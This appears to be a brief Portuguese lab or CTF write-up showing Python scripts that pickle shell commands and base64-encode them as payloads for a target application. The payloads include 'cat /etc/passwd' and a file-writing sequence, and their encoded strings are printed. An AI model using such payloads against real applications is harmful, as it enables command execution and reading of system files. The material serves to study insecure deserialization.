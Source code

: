 
- Criei um script python para gerar o pickel do comando que eu quero executar na aplicação

```python3
import pickle
import base64

payload = pickle.dumps(b'cat /etc/passwd')

encoded_payload = base64.urlsafe_b64encode(payload).decode()

print(encoded_payload)
```

## pickle para ler o /etc/passwd

```
gASVEwAAAAAAAABDD2NhdCAvZXRjL3Bhc3N3ZJQu
```

- O mesmo scrip, mas agora para 


```python3
import pickle
import base64

payload = pickle.dumps(b'touch foo.txt \n echo "Algeum passou por aqui" >> foo.txt \n head -n 1 foo.txt')

encoded_payload = base64.urlsafe_b64encode(payload).decode()

print(encoded_payload)
```


## pickle para escrever e ler o arquivo criado

```
gASVUAAAAAAAAABDTHRvdWNoIGZvby50eHQgCiBlY2hvICJBbGdldW0gcGFzc291IHBvciBhcXVpIiA-PiBmb28udHh0IAogaGVhZCAtbiAxIGZvby50eHSULg==
```
